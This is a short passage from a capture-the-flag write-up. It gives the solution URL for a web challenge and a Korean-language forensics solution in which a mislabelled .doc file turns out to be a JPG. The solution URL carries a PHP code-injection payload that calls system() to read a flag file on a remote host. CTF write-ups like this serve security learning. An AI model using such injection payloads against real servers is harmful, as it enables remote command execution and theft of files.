 
Stage 4 Solve URL : `http://remote.goatskin.xyz:1131/index.php?pass1=/-/e&pass2=system(%27cat%20../flag%27)`

### Flag : Grand trash to be hacked...

# Forensic

# Unknown File★
	What is this?
	file

먼저 파일을 다운 받아보면 파일이름은 .doc지만 hex editor로 열어보면 원래 jpg파일이라는것을 알 수 있다.
![](./img/for_file.png)

그래서 .doc를 .jpg로 바꿔준 뒤, 열어보면 Flag가 나온다.

![](./img/for_file2.jpg)
